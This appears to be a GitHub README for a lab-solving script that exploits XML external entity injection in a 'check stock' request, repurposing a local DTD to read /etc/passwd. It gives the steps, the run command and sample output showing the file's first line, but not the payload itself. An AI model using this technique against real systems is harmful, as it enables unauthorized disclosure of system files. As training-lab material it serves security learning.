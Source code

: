 # Hack Steps

1. Inject payload into the XML-based check stock request to retrieve the content of /etc/passwd by repurposing a local DTD
2. Extract the first line as a proof

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xxe_to_retrieve_data_by_repurposing_a_local_dtd.py
```

# Expected Output

```
⟪#⟫ Injection point: XML-based check stock request
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd by repurposing a local DTD.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 Check your browser, it should be marked now as solved
```
